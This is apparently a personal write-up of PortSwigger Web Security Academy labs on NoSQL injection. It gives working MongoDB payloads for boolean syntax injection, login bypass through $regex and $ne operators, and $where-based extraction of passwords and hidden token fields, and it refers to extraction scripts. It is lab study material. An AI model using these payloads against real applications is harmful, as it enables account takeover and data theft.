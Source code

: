 # NoSQL Injection

- https://portswigger.net/web-security/nosql-injection

## Detecting NoSQL injection

Injecting `Lifestyle'}{()"` into filter category query param results in 500 response status and mongo syntax error.

In order to detect which character breaks the server, we can submit them one by one. After submitting `Lifestyle'` we see server error and upon submiting different character we do not, so we can assume that `'`  is causing the problems.

Now injecting `Lifestyle'&&false&&'x` responds with 200 status and 0 results (3567 Content length), but injecting `Lifestyle'&&true&&'x` results in 200 status and multiple results (4732 Content length). This basically proves that we are able to successfully modify NoSQL query and perform `syntax injection`.

Injecting `Lifestyle'||true||'x` solves the lab.

## Exploiting NoSQL operator injection to bypass authentication

In order to login to the app `POST /login` request is made with `username` and `password` as json keys.

Changing the query to have logic operators as hown below still successfully logs us in.

```
{"username":{"$eq": "wiener"},"password":{"$eq":"peter"}}
```

Changing the logic operators to some not existing once in one or both keys, makes the server respond with 500 status with no detailed error message.

In order to login as admin and solve the lab we can modify the query like this:

```
{"username":{"$regex": "admin.*"},"password":{"$ne":""}}
```

## Exploiting NoSQL injection to extract data

`POST /user/lookup?user=<username>` performs user role lookup and allows checking roles for other users as well.

After requesting non existant user we receive information that no user was found, but when injecting `'` after the `user` param value we receive an error. This indicates that we might we changin the syntax of the request.

Performing requests with different logical values respond with different values: 
 - `administrator'&&true||'` -- respond with admin values
 - `administrator'&&false||'` -- could not find a user

This proves that this is vulnerable to NoSQLi.

If the search is made via `$where` clause, we can make small code execution here. For example trying to access user password via `this.password`

Performing tests to prove my theory I have tried to test for the first letter of the password via Burp Intruder:

```
administrator'&&this.password[0]=='<letter>'||'
```

On failures I have received `"Could not fina a user"` response, but on success for one letter admin role details were returned.

Run script to solve the lab:

```
python exfil-password.py 
```

## Exploiting NoSQL operator injection to extract unknown fields

Firstly during testing I have triggered the password reset for carlos.

At `POST /login` request adding `$where` caluse results in 500 response error, so we can assume there maybe inproper handling of the input from user

```
{"username":"carlos","password":"password",
"$where":1}
```

But injecting operators as shown below with objects did the trick:

```
{"username":"carlos","password":{"$ne": ""}}

{"username":"carlos","password":{"$regex": ".*"}}
```

We can now see a message `Account locked`.

Now adding `$where` clause and changing its value from `0` to `1` we receive different respond each time. For `1` - account locked, for `0` - invalid credentials.

```
{"username":"carlos","password":{"$ne": ""},"$where":"0"}

{"username":"carlos","password":{"$ne": ""},"$where":"1"}
```

Now using a `Object.keys` we can enumarate object field names and using `match` test them by regex:

```
{"username":"carlos","password":{"$ne": ""},"$where":"Object.keys(this)[0].match('^.+$')"}
```

In order to retrieve field names and then reset token value uncomment proper function calls in the script and run:

```
python exfil-forgot-token.py
```

`unlockToken` is a field value, so we can try to pass it as param to `/forgot-password` endpoint. Accessing `/forgot-password?unlockToken=a` responds with `"Invalid token"`, so now we can inject a proper one and solve the lab.
